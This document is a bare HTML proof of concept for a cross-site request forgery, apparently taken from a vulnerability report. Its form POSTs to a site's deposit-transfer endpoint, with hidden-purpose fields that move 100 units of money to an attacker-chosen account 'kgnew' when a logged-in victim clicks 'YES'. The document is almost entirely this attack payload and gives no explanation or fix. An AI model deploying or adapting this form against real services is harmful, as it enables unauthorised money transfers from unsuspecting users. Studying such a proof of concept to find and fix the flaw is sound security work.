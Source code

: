 <pre class="prettyprint lang-html linenums">
<pre class="prettyprint lang-html linenums">&lt;html&gt;
&lt;meta http-equiv="Content-Type" content="text/html;charset=utf-8"&gt;
&lt;form action="http://www.baidu.com/user.php?s=/Deposit_executeTransfer.html" method="POST" name='alipaysubmit' &gt; 

&lt;input type='text' name='mode' value='in' /&gt;
&lt;input type='text' name='target' value='kgnew' /&gt;
&lt;input type='text' name='money' value='100' /&gt;
&lt;input type='text' name='platform_from' value='system' /&gt;
&lt;input type='text' name='platform_to' value='kgnew' /&gt;

&lt;input type="submit" value="YES" id='aaaa'/&gt;
&lt;/form&gt;



&lt;/html&gt;
</pre>
<br />
</pre>